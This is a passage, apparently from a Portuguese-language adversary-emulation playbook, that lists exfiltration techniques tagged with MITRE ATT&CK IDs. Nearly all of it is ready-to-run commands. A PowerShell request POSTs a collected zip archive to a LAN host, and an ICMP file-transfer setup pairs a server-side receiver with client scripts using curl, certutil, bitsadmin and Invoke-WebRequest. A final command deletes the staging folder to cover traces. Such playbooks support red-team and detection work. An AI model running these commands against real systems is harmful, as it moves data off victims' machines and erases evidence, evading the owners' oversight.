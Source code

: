   - Invoke-WebRequest [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    ```powershell
    # LAN
    Invoke-WebRequest -uri "http://10.10.64.230/file/upload?pwsh" -Method Post -Headers @{"X-Request-Id" = "$env:COMPUTERNAME"} -Infile $env:TMP\caldera\exfiltrate_caldera.zip
    ```

  - ICMP (`PING`) [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    - Executar no servidor: 
      ```bash
        # https://github.com/icyguider/ICMP-TransferTools
        bash> cd ~/Downloads/tools/ICMP-TransferTools && while true;do sudo ./ICMP-ReceiveFile.py 172.30.200.100 exfiltrate_caldera.zip;done
      ```

    - Executar no cliente: 
      ```powershell
      # LAN
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_curl.ps1)      { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_curl.ps1;      Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_certutil.ps1)  { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_certutil.ps1;  Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_bitsadmin.ps1) { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_bitsadmin.ps1; Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_iwr.ps1)       { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_iwr.ps1;       Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      ```
    
- Removendo a pasta e arquivos criados [[`Defense-evasion:T1070.004:File Deletion`](https://attack.mitre.org/techniques/T1070/004/)] (`CMD`) 
```cmd
rmdir /S /Q %tmp%\caldera
```

